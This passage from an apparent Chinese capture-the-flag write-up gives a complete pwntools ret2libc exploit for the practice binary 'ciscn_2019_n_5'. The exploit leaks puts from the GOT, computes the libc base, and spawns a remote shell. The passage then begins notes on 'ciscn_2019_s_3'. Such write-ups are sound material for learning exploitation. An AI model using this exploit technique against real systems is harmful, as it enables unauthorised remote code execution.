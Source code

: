 ```
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

from pwn import *
context.log_level='debug'

elf = ELF('./ciscn_2019_n_5')
#p = process('./ciscn_2019_n_5')
p = remote("node3.buuoj.cn", 27072)
#gdb.attach(p,'b *main')
libc=ELF("./libc-2.27.so")

poprdi=0x400713
puts=elf.plt['puts']
puts_got=elf.got['puts']
start = 0x400540

p.recvuntil('name\n')
p.sendline('1')
p.recvuntil('me?\n')
payload = 'a'*40+p64(poprdi)+p64(puts_got)+p64(puts)
payload += p64(start)
p.sendline(payload)

puts=u64(p.recv(6).ljust(8,'\x00'))
print hex(puts)

libcbase=puts-libc.sym['puts']
system_addr=libcbase+libc.sym['system']
bin_sh=libcbase+libc.search("/bin/sh\x00").next()
ret = 0x4004c9

p.recvuntil('name\n')
p.sendline('1')
p.recvuntil('me?\n')
payload = 'a'*40+p64(ret)+p64(poprdi)+p64(bin_sh)+p64(system_addr)
p.sendline(payload)

p.interactive()
```

### ciscn_2019_s_3

例行检查

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1ghnz8czhokj30mm064wen.jpg)

ida pro打开

vuln函数的两个系统调用

![](https://tva1.sinaimg.cn/large/007S8ZIlgy1gho3kclqfej327y0rigtc.jpg)

